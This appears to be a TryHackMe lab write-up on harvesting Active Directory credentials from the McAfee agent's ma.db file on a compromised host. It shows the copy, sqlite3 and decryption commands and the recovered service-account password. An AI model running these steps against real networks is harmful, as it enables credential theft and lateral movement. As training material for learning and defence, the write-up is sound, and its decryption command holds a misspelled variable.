 # Configuration files

Suppose a breach that gave access to a host on the organisation's network. In that case, configuration files are an 
excellent avenue to explore further for recovering (more) AD credentials. Depending on the host that was breached, 
configuration files may be available for such enumeration: 

* Web application config files
* Service configuration files
* Registry keys
* Centrally deployed applications

Eumeration scripts like Seatbelt could be used to automate this process.

## Configuration file credentials

The example here is the McAfee Enterprise Endpoint Security application, an endpoint detection and 
response (EDR) agent. The application stores an Active Directory credential in the 
`C:\ProgramData\McAfee\Agent\DB\ma.db` file, which could be read by an attacker who has managed to gain a foothold 
on a host where this application is installed.

The `ma.db` file is a SQLite file which can be read using the `sqlite3` utility or the `sqlitebrowser` tool.

We can use the SSH access on the jump host THMJMP1 again. Also, download the Python 2 script to crack the password hash.

Secure Copy the File, using the password: `Password1@`

    scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db ma.db

Inspect the data using `sqlitebrowser` or `sqlite3`. Got to the `AGENT_REPOSITORIES` table and check out the 
`DOMAIN`, `AUTH_USER`, and `AUTH_PASSWD` columns.

```text
sqlite3 ./ma.db

# List the tables in the database
sqlite> .tables
AGENT_CHILD              AGENT_PROXIES            MA_DATACHANNEL_MESSAGES
AGENT_LOGS               AGENT_PROXY_CONFIG     
AGENT_PARENT             AGENT_REPOSITORIES

# Dump the table schema
sqlite> .schema AGENT_REPOSITORIES
CREATE TABLE AGENT_REPOSITORIES(NAME TEXT NOT NULL UNIQUE, REPO_TYPE INTEGER NOT NULL, URL_TYPE INTEGER NOT NULL, NAMESPACE INTEGER NOT NULL, PROXY_USAGE INTEGER NOT NULL, AUTH_TYPE INTEGER NOT NULL, ENABLED INTEGER NOT NULL, SERVER_FQDN TEXT, SERVER_IP TEXT, SERVER_NAME TEXT,PORT INTEGER, SSL_PORT INTEGER,PATH TEXT, DOMAIN TEXT, AUTH_USER TEXT, AUTH_PASSWD TEXT, IS_PASSWD_ENCRYPTED INTEGER NOT NULL, PING_TIME INTEGER NOT NULL, SUBNET_DISTANCE INTEGER NOT NULL, SITELIST_ORDER INTEGER NOT NULL, STATE INTEGER NOT NULL, PRIMARY KEY (NAME) ON CONFLICT REPLACE);

# Select the desired columns from the table
sqlite> SELECT DOMAIN, AUTH_USER, AUTH_PASSWD FROM AGENT_REPOSITORIES;
za.tryhackme.com|svcAV|jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==

# Exit sqlite3
sqlite> .quit
```

We have the account username, `svcAV`, and an encrypted password stored as a base64 string.

Reverse the encrypted password and use the script provided in the exercise files to crack it.

    encrypted_pw='jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=='
    python2 ./mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py $encryped_pw

The `svcAV` user account has password `MyStrongPassword!`
